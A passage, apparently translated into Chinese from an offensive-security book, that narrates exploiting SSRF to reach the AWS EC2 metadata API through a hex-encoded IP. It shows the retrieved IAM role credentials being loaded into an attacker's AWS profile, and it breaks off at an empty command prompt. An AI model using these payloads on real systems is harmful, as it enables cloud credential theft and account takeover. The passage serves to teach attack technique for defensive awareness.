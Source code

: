 好吧，这并不完全正确。我们还没有获取到一组凭证，与之前的凭证不同，它通常不受 IP 限制：机器的 IAM 角色。

在大多数云服务提供商中，你可以为机器分配一个*角色*，这是一组默认凭证。这样机器就能够无缝地进行云提供商身份验证，并继承分配给该角色的任何权限。任何在机器上运行的应用或脚本都可以声明该角色，这样就避免了在代码中硬编码密钥的糟糕习惯。看起来完美……再次强调，仅仅是纸面上的完美。

实际上，当 EC2 机器（或者更准确地说，是实例配置文件） impersonates IAM 角色时，它会获取一组临时凭证，代表该角色的权限。这些凭证通过——你猜对了——元数据 API 提供给机器。

我们调用*/latest/meta-data/iam/security-credentials* 端点来检索该角色的名称：

```
http://0xa9fea9fe/latest/meta-data/iam/security-credentials
demo-role.ec2
```

我们可以看到该机器被分配了 demo-role.ec2 角色。让我们再次通过调用元数据 API 来获取它的临时凭证：

```
# Credentials
http://0xa9fea9fe/latest/meta-data/iam/security-credentials/demo-role.ec2

{
 Code : Success,
 LastUpdated : 2020-10-26T11:33:39Z,
 Type : AWS-HMAC,
 **AccessKeyId : ASIA44ZRK6WS4HX6YCC7,**
 SecretAccessKey : nMylmmbmhHcOnXw2eZ3oh6nh/w2StPw8dI5Mah2b,
 Token : AgoJb3JpZ2luX2VjEFQ...
 Expiration : 2020-10-26T17:53:41Z 1
}
```

我们得到了`AccessKeyId`和`SecretAccessKey`，它们共同构成了经典的 AWS API 凭证，以及一个验证这组临时凭证的访问令牌。

理论上，我们可以将这些密钥加载到任何 AWS 客户端，并通过机器的身份：demo-role.ec2，在世界上任何 IP 上与 MXR Ads 的账户进行交互。如果该角色允许机器访问 S3 存储桶，那么我们就可以访问这些存储桶。如果机器可以终止实例，那么我们也可以。我们可以接管该实例的身份和权限，在凭证被重置之前的六个小时内继续使用。

当这个宽限期到期后，我们可以再次检索到一组新的有效凭证。现在你明白为什么 SSRF 是我新最好的朋友了。在这里，我们将 AWS 凭证注册在主目录下，配置文件名称为 `demo`：

```
# On our attacking machine
root@Point1:~/# **vi ~/.aws/credentials**
[demo]
aws_access_key_id = ASIA44ZRK6WSX2BRFIXC
aws_secret_access_key = +ACjXR87naNXyKKJWmW/5r/+B/+J5PrsmBZ
aws_session_token = AgoJb3JpZ2l...
```

看起来我们有了突破！不幸的是，就在我们开始紧握目标时，AWS 又给我们带来了新的挑战：IAM。

### AWS IAM

AWS IAM 是身份验证和授权服务，它可能是一个非常复杂的系统。默认情况下，用户和角色几乎没有任何权限。他们无法看到自己的信息，如用户名或访问密钥 ID，因为即使是这些简单的 API 调用也需要明确的权限。

显然，像开发人员这样的普通 IAM 用户拥有一些基本的自查权限，使他们可以列出自己的组成员身份，但对于附加到机器的实例角色来说情况就完全不同了。当我们尝试获取关于角色 demo-role-ec2 的基本信息时，出现了一个令人震惊的错误：

```
# On our attacking machine
root@Point1:~/# 
```
